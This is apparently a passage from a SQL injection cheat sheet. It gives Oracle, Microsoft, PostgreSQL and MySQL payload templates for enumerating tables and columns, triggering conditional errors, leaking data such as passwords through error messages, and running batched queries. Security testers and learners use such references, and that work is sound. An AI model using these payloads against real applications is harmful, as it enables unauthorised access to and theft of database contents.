 ## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle | `SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| --- | --- |
| Microsoft | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| PostgreSQL | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| MySQL | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| --- | --- |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft | `SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.` |
| --- | --- |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"` |
| MySQL | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'` |

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle | `Does not support batched queries.` |
| --- | --- |
| Microsoft | `QUERY-1-HERE; QUERY-2-HERE   QUERY-1-HERE QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL | `QUERY-1-HERE; QUERY-2-HERE` |

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
